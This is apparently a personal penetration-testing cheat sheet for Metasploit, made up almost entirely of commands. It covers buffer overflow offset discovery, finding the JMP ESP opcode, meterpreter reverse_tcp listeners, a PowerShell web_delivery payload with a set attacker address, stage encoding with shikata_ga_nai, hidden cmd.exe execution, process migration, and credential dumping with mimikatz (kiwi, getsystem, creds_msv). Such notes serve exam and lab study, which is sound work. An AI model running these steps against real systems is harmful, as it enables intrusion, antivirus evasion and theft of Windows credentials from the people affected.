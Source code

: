 ###### Testing buffer size
msf-pattern_create -l 800  
msf-pattern_create -l 2000 -s ABCDEF,def,1234(custom chars set,it can remove some specific bad chars)  
msf-pattern_offset -l 800 -q 42306142

###### To find the opcode equivalent of JMP ESP
```
msf-nasm_shell  
nasm > jmp esp  
00000000  FFE4              jmp esp  
```
###### Migrate shell into notepad.exe process
```
set AutoRunScript post/windows/manage/migrate #stable the shell
```
###### Metasploit Pose-exploit commands:
```
bg
show sessions
sessions id
quit # 退出会话
execute -H -i -f cmd.exe # 创建新进程cmd.exe，-H不可见，-i交互
```
###### Settingg up local listener
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
show options
set LHOST ip
set LPORT port
exploit
```
###### Setting up local powershell reverse tcp listener
```
use exploit/multi/script/web_delivery
set target 2 #important
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.199.128
set lport 4444
run
```
###### multi/handler payload encode
```
set EnableStageEncoding true
set StageEncoder x86/shikata_ga_nai
```
###### Migrating Processes
Note that we are only able to migrate into a process executing at the same privilege and integrity level or lower than that of our current process.
```
ps
migrate pid
```
###### Meterpreter command to use powershell
```
meterpreter > :
load powershell
help powershell
powershell_execute "$PSVersionTable.PSVersion"
```
###### Meterpreter command to use mimikatz
```
meterpreter > :
load kiwi
getsystem
creds_msv
```
